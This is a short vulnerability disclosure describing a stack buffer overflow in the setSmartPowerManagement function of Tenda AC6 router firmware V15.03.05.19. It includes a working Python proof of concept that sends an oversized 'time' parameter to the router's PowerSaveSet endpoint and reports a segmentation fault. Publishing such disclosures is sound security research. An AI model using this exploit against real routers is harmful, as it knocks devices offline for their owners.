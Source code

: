 ## Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the setSmartPowerManagement function

A critical buffer overflow vulnerability exists in the `setSmartPowerManagement` function of the Tenda AC6 router firmware version V15.03.05.19.  
An attacker can exploit improper bounds handling in the `sscanf` function to overflow a stack-based buffer. Successful exploitation allows triggering a Denial of Service (DoS) condition or crashing the target service, potentially leading to complete device instability.

![](./picture/1.png)

```python
import requests

def create_payload():
	payload = b'00:00-00:'
	buffer_size = 0x400
	payload = b"A" * buffer_size
	return payload

def send_payload(url, payload):
    params = {'time': payload}
    response = requests.get(url, params=params)
    
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    url = 'http://192.168.52.138/goform/PowerSaveSet'
    payload = create_payload()
    send_payload(url, payload)

```

Achieved Result: Segmentation Fault
![](./picture/2.png)

